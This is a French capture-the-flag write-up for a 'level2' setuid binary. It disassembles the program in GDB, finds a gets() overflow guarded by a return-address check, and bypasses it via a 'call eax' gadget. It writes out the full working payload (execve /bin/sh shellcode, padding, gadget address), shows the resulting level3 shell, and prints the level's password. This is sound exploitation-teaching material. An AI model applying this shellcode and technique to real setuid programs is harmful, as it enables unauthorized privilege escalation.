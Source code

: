## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
  [...]
  ```
    - On a un binaire appartenant a level3 dans le home avec les droits SUID.

- `./level2`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level2`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484d4  p
      0x0804853f  main
    [...]
    ```
    - on trouve une fonction p en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x0804853f <+0>:	push   ebp
       0x08048540 <+1>:	mov    ebp,esp
       0x08048542 <+3>:	and    esp,0xfffffff0
       0x08048545 <+6>:	call   0x80484d4 <p>
       0x0804854a <+11>:	leave
       0x0804854b <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (aligne la stack)<br/><br/>
    - <+6>
      - Call p()<br/><br/>
    - <+11> ... <+12>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction main() ne fait qu'appeler la fonction p()

  - `disas p`
    ```asm
    Dump of assembler code for function p:
       0x080484d4 <+0>:	push   ebp
       0x080484d5 <+1>:	mov    ebp,esp
       0x080484d7 <+3>:	sub    esp,0x68
       0x080484da <+6>:	mov    eax,ds:0x8049860
       0x080484df <+11>:	mov    DWORD PTR [esp],eax
       0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
       0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
       0x080484ea <+22>:	mov    DWORD PTR [esp],eax
       0x080484ed <+25>:	call   0x80483c0 <gets@plt>
       0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
       0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
       0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
       0x080484fb <+39>:	and    eax,0xb0000000
       0x08048500 <+44>:	cmp    eax,0xb0000000
       0x08048505 <+49>:	jne    0x8048527 <p+83>
       0x08048507 <+51>:	mov    eax,0x8048620
       0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
       0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
       0x08048513 <+63>:	mov    DWORD PTR [esp],eax
       0x08048516 <+66>:	call   0x80483a0 <printf@plt>
       0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
       0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
       0x08048527 <+83>:	lea    eax,[ebp-0x4c]
       0x0804852a <+86>:	mov    DWORD PTR [esp],eax
       0x0804852d <+89>:	call   0x80483f0 <puts@plt>
       0x08048532 <+94>:	lea    eax,[ebp-0x4c]
       0x08048535 <+97>:	mov    DWORD PTR [esp],eax
       0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
       0x0804853d <+105>:	leave
       0x0804853e <+106>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 104 octets pour la stack)<br/><br/>
    - <+6> ... <+14>
      - Stocke la valeur du registre data segment 0x80497c0 dans eax
        - `x/s 0x8049860`
          - `0x8049860 <stdout@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdout) sur la stack (à esp)
      - Call fflush() avec l'argument stocké sur la stack<br/><br/>
    - <+19> ... <+25>
      - Fait pointer eax sur ebp - 76
      - Stocke eax (l'adresse de ebp - 76) sur la stack (à esp)
      - Call gets() avec l'argument stocké sur la stack<br/><br/>
    - <+30> ... <+49>
      - Stocke l'adresse ebp + 4 (l'eip) dans eax
      - Stocke eax (l'adresse de l'eip) dans ebp - 12
      - Applique un filtre binaire (0xb0000000) à la valeur de eax
      - Compare la nouvelle valeur de eax avec 0xb0000000
      - Jump à <p +83> si la comparaison n'est pas vraie<br/><br/>
    - <+51> ... <+66>
      - Stocke la valeur de 0x8048620 dans eax
        - `x/s 0x8048620`
          - `0x8048620:	 "(%p)\n"`
      - Stocke la valeur à ebp - 12 (l'adresse de l'eip) dans edx
      - Stocke la valeur de edx sur la stack (à esp + 4)
      - Stocke la valeur de eax ("(%p)\n") sur la stack (à esp)
      - Call printf() avec les arguments stockés sur la stack<br/><br/>
    - <+71> ... <+78>
      - Stocke 0x1 (1) sur la stack (à esp)
      - Call exit() avec l'argument stocké sur la stack<br/><br/>
    - <+83> ... <+89> (Jump conditionnel depuis <+49>)
      - Fait pointer eax sur ebp - 76 (le retour du gets)
      - Stocke eax (ebp - 76) sur la stack (à esp)
      - Call puts() avec l'argument stocké sur la stack<br/><br/>
    - <+94> ... <+100>
      - Fait pointer eax sur ebp - 76 (le retour du gets)
      - Stocke eax (ebp - 76) sur la stack (à esp)
      - Call strdup() avec l'argument stocké sur la stack<br/><br/>
    - <+105> ... <+106>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

La fonction p() fait donc:
  - fflush(stdout) => clean stdout
  - gets(ebp - 76) => attend un input
  - vérifie avec un filtre binaire et un cmp si l'eip commence par 0xb...
    - si c'est le cas:
      - printf("%p\n", eip) => affiche la valeur du pointeur sur eip
      - exit(1) => quitte la fonction
    - sinon:
      - puts(ebp - 76) => affiche le retour du gets
      - strdup(ebp - 76) => copie le retour du gets dans un malloc et le stocke dans eax

## Exploit

On sait qu'il y a un buffer overflow possible sur le gets, cependant le check au niveau de <p+44> nous empêche de réécrire l'EIP pour le faire pointer sur une fonction de la stack comme dans l'exercice précédent, il va falloir trouver un autre moyen de lancer notre exploit.

Après quelques recherches dans les fonctions importées par le programme, on trouve un call à eax dans frame_dummy:

- `gdb level2`
  - `info function`
    ```asm
    [...]
      0x080484b0  frame_dummy
    [...]
    ``` 
  - `disas frame_dummy`
    ```asm
    [...]
      0x080484cf <+31>:	call   eax
    [...]
    ```
Puisque le strdup() stocke son output dans eax, en théorie on peut écrire un exploit dans l'input du gets() et utiliser l'adresse du call eax découvert dans frame_dummy (`0x080484cf`) pour réécrire l'EIP et faire exécuter notre exploit depuis eax !

On va se servir d'un [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) pour trouver l'offset plus rapidement:

- `echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" > /tmp/exploit`
- `gdb level2`
  - `run < /tmp/exploit`
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()
    ```
    - on rentre 0x37634136 dans le générateur de pattern et il nous donne un offset de 80.

Nous créons donc un payload à l'aide du shellcode trouvé dans le lien suivant : https://www.exploit-db.com/exploits/41757

On a 80 octets avant d'écraser l'EIP, donc on écrit les 21 octets de notre shellcode, 59 octets random (80 - 21) et notre adresse en little endian:
  - `python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\xcf\x84\x04\x08"' > /tmp/exploit`

Enfin nous lançons le programme avec le payload malicieux comme au level précédent:
- `cat /tmp/exploit - | ./level2`
  ```
     j
  X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAτ

  ```
  - `whoami`
    ```
    level3
    ```
  - `cat /home/user/level3/.pass`
    ```
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
    ```
